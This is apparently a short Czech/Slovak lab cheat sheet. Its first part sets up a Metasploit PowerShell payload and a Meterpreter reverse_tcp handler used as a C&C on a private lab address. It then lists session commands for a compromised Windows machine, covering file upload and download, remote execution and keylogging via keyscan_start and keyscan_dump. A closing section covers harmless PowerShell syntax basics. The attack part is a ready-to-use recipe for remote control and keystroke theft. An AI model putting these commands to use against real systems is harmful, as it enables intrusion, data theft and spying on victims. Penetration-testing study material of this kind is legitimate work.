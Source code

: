 ```bash
generate  -t  psh  -f /var/www/html/msfx2.ps1


: handler (ovladac C&C)
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 10.0.0.170

set lport 4444

set ExitOnSession false

exploit  -j


: Kontrola session
sessions  -l          (Ve sloupecku connection vidite 10.0.0.160:4444)

sessions  -i ID Vasi session  (vsimnete si, ze se zmenil prompt na meterpreter - nyni jiz nejsou dostupne puvodni prikazy platne globalne v msf)

: Co delat v session
pwd         	(kde jsem na napadenem pocitaci)
cd		(zmena adresare)
lpwd, lcd	(to stejne, ale u me na C&C)
upload		(nahrat libovolny soubor z meho lpwd do vzdeleneho pwd)
download 	(stahnout libovolny soubor ze vzdaleneho pwd do meho lpwd)
execute -f soubor.bat	(spustit vybrany soubor - nezapomente na escape backslashe - c:\\windows\\...)
keyscan_start	(spusti keylogger)
keyscan_dump	(vypise keylogger)
```

# powershell

## základy

foreach alias %  
where alias ?  
stringy v uvodzovkach ""  
{} je scriptblok  
$_ je pristup k objektu  

napr:  
ps | where { $_.processname -eq "calc" -and $_.id -gt 5000 } | % { $_.Kill() }  
vypisat metody atd cez Get-Member: "teststring" | Get-Member  
() zatvorky aby to bralo ako objekt napr: ("aa").length  
